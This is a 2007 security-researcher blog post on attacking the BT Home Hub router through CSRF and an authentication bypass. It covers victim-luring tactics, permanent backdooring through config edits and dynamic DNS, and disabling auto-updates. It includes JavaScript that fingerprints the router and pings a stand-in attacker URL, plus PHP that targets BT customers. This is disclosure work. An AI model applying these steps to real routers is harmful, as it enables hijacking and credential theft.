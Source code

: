 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (2)
author: adrian-pastor
date: Tue, 16 Oct 2007 22:02:03 GMT
template: post.jade
---
```


In this post I'll elaborate a bit more on our [demo video](http://stage6.divx.com/user/gnucitizen/video/1722388/BT-Home-Flub) previously released and what the intruder can do to remotely access the Home Hub _anytime and from anywhere_ after it's been been broken into.  You are recommended to read the [first part](/blog/bt-home-flub-pwnin-the-bt-home-hub) of this post if you haven't done so yet.

So here is the attack illustrated in the demo video. The victim user is tricked - through Gtalk - to visit a website that contains malicious code. The malicious code runs in the background and does NOT exploit any vulnerabilities on the victim's browser at all, neither does it rely on ActiveX, therefore it's not picked up by anti-spyware/antivirus software. The malicious code is a simple combination of HTML and JavaScript, which exploits two vulnerabilities on the Home Hub (note that there are other vulnerabilities we found as well):

* CSRF
* Authentication bypass bug (thanks to this the exploit works even if the user has changed the default admin password)

After the victim user visits the malicious website, he's redirected to a funny video of [Techno Viking](http://www.google.com/search?ie=UTF-8&oe=UTF-8&sourceid=navclient&gfns=1&q=techno+viking) hosted by Youtube. Thus, the victim is distracted away from the fact that his router has just been compromised. There are other things we could have done on the malicious website besides a redirect to a Youtube video. For instance, we could have simply embedded third-party content from other websites through iframes in order to distract the victim from the fact that he's been victim of an attack.

### Tricking the victim to visit the evil site

We've been asked by some non-technical users how would the intruder incite the victim to visit the malicious link. Malware criminals are experts at finding ways to attract people to their malicious websites. Well, there are plenty of examples we can give. The following are some:

* Through a chat conversation (i.e.: messenger or IRC)
* Through emails delivered in a mass fashion targeting [UK email addresses](http://mail.google.com/mail/help/intl/en-GB/googlemail.html)
* By placing the malicious link on a popular website where it's common to find user-generated content. i.e.: Youtube, Myspace, Facebook, Bebo ...
* Through a website that claims to offer free porn
* Through a website that claims to offer  free [warez](http://en.wikipedia.org/wiki/Warez)
* Black [SEO](http://en.wikipedia.org/wiki/Search_engine_optimization)
* By setting up a blog through which the audience is [involved emotionally](http://www.spamfighter.com/News_Read_Spamfighter.asp?UID=419) regarding a current issue

### Backdooring the Home Hub PERMANENTLY

Once the router has been compromised the attacker gets an email (as shown in the [demo video](http://www.youtube.com/watch?v=i4tkM3UtF1Y)) with the URL needed to access the Home Hub remotely using the "tech support" account - a.k.a. remote assistance. The attacker then logs in using the username 'tech' and a password which was chosen by her and was set when the malicious website was loaded in the victim user's browser. At this point, the intruder can do anything to the router. For instance, because remote assistance gets disabled after 20 minutes of inactivity, the intruder can do the following in order to make sure that she can come back any time to the router to tamper with it:

* Save the Home Hub config file (contains all router settings including the passwords for any services the victim is subscribed to)
* Add the following line in the config file under the `[ servmgr.ini ]` section: `ifadd name=HTTPs group=wan`
* Reload the modified config file so the new changes take place
* Configure the dynamic dns service (if the victim is not currently using it) using the web interface

At this point, the intruder can come back anytime remotely to the Home Hub, even after the remote assistance connection has timed out (happens after 20 mins of inactivity by default). The credentials she would use to login are the same one that were set when the attack took place (username 'tech' and a password of her choice). The cool thing is that although BT Broadband doesn't support static IP addresses, the intruder can simply bypass this restriction and always find the victim router's IP address thanks to it supporting serveral popular (and free) dynamic DNS services!

### Detecting a potentially vulnerable router

When preparing the exploit shown in the video, the malicious code could do either of the following before the actual exploit is submitted to the router:

* do not check if the victim user uses a vulnerable router
* perform some sort of check that concludes with a significant probability whether the victim user's router is vulnerable

The first approach is typically followed by classic worms: the payload is executed no matter what. If the router is vulnerable, then it'll be compromised, otherwise nothing would happen. From the user's end, there is no difference as everything happens in the background.

However, if the intruder wants to be stealth, he will craft the malicious webpage in such a way the exploit is only launched if the victim uses a potentially vulnerable router. This is a more elegant way to perform the attack and minimizes the chances of someone discovering the exploit and making it public.

The following are two simple techniques that can be used. The first technique simply checks if the IP address used by the BT Home Hub is serving a certain image:

    var notifyURL="http://evil.anydomain.com/bthomehubhack/notify.php";
    var imgsrc = 'http://192.168.1.254/images/head_wave.gif';
    var fingerprint_img = new Image();
    fingerprint_img.onerror = function (evt) {
        ; // can't be loaded - couldn't find a vulnerable router
    }
    // only notify attacker if potential vulnerable Thomson Speedtouch / BT Homehub router found
    fingerprint_img.onload = function (evt) {
        C=new Image();
        C.src=notifyURL;
    }

    The second technique simply checks for substrings within the [reverse DNS](http://en.wikipedia.org/wiki/Reverse_DNS_lookup) (PTR record) of the victim router. The following is an example of a reverse DNS record used by a BT Home Hub:

    host86-134-193-152.range86-134.btcentralplus.com

    In PHP we could check for the string 'btcentralplus.com' like this:

    <?php
    $ptr=gethostbyaddr($_SERVER['REMOTE_ADDR']);
    // if string "btcentralplus.com" is contained within victim's reverse lookup
    if(strstr($ptr, "btcentralplus.com")) {
       // then print exploit code
       // EVIL CSRF/AUTH BYPASS CODE GOES HERE!
    }
    ?>

    ### Preventing BT from fixing the vulnerabilities on Hubs that have been owned

    The BT Home Hub has a very neat feature called Auto-Update. The way the feature works is that the BT Home Hub connects regularly to remote servers located on `pbthdm.bt.motive.com`, which can push settings back to the Hub. There have been some concerns over this feature in the Internet community and I can see why. In essence, this feature is a backdoor which allows BT to do anything to your Home Hub remotely. Sure this is meant to be for updates that add new features and/or fix vulnerabilities. The question is, do you trust your ISP to have permanent control of your Internet gateway? I personally don't like the possibility of a disgruntled BT employee being able to tamper with my Home Hub remotely! Not to mention that this feature has [bricked](http://www.digitalspy.co.uk/forums/showthread.php?t=491560) Home Hubs in the past after customizing the configuration.

    An intruder would probably want to avoid any chance of BT disabling her backdoor after auto-updates are applied. Disabling updates can be as easy as changing the following line in the config file to point to a dummy (non-existing) URL. Note that we have NOT tested this idea, but it should work. After all, the intruder can save new changes in the config file using the tech support account.

    server config url=**https://useless-domain.foo/** username=XXXXXXXXXXXXXXXXX password=XXXXXXXXXXXXXXXXX

Perhpaps, the most effective way in which a cracker can break into BT Home Hubs in a mass fashion is by compromising the autoupdate servers. Then, from there, one could push changes back to the Hubs' config files. Imagine someone updating all BT Home Hubs in the UK with remote HTTPs enabled and accessible with a password of her choice. What a botnet would that make! Scary.

### Credits where due

_[pdp](http://www.gnucitizen.org/about/pdp) and I would like to thank Jan Fry and Vijay Thakorlal for helping us testing attacks._

